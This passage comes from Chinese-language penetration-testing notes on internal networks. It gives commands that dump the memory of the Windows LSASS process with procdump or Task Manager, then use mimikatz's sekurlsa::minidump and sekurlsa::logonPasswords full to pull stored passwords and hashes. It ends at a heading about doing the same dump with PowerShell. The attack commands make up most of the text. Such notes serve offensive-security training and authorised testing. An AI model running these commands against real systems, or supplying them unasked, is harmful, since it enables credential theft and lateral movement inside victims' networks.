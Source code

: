 ```sh
prodump.exe -accepteula -ma lsass.exe lsass.dmp #导出lsass.dmp文件
或使用任务管理器 lsass.exe进程  右击create dump file导出到文件

-----
mimikatz.exe
	sekurlsa::minidump lsass.dmp  #加载lsass.dmp
	sekurlsa::logonPasswords full   #导出散列值
```

![image-20210830212703018](内网渗透/image-20210830212703018.png)

### 使用Powershell对散列值进行dump操作


